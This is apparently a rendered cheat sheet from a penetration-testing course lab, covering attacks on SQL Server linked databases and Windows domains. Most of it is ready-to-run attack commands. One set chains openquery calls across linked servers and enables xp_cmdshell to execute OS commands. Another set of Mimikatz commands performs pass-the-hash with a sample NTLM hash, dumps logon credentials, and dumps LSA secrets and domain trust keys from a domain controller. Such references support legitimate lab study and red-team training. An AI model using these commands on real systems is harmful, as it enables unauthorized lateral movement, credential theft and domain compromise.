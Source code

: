 #### Enumerating Database Links
**Manually**
`openquery()` function can be used to run queries on a linked database
```sql
select * from openquery("dcorp-sql1",'select * from master..sysservers')
```

**PowerUpSQL**
```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Verbose
```

Or Openquery queries can be chained to access nested links.
```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from master..sysservers'')')
```

#### Executing Commands
- On the target server, either `xp_cmdshell` should be already enabled; or
- If `rpcout` is enabled (disabled by default), `xp_cmdshell` can be enabled using:
```sql
EXECUTE('sp_configure ''xp_cmdshell'',1;reconfigure;') AT "eu-sql"
```

```powershell
Get-SQLServerLinkCrawl -Instance dcorp-mssql -Query "exec master..xp_cmdshell 'whoami'"
```

From the initial SQL server, OS commands can be executed using nested
link queries:

```sql
select * from openquery("dcorp-sql1",'select * from openquery("dcorp-mgmt",''select * from openquery("eu-sql.eu.eurocorp.local",''''select @@version as version;exec master..xp_cmdshell "powershell whoami)'''')'')')
```

# Mimikatz reference

Pass-the-Hash with sekurlsa
```powershell
Invoke-Mimikatz -Command '"sekurlsa::pth /user:svcadmin /domain:dollarcorp.moneycorp.local /ntlm:b38ff50264b74508085d82c69794a4d8 /run:powershell.exe"'
```

Standard credential harvesting (`sekurlsa::logonpasswords`):
```powershell
Invoke-Mimikatz -DumpCreds
```

Execute mimikatz on DC as DA to get hashes
```powershell
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername dcorp-dc
```

Dump trust keys
```powershell
Invoke-Mimikatz -Command '"lsadump::trust /patch"' 
```
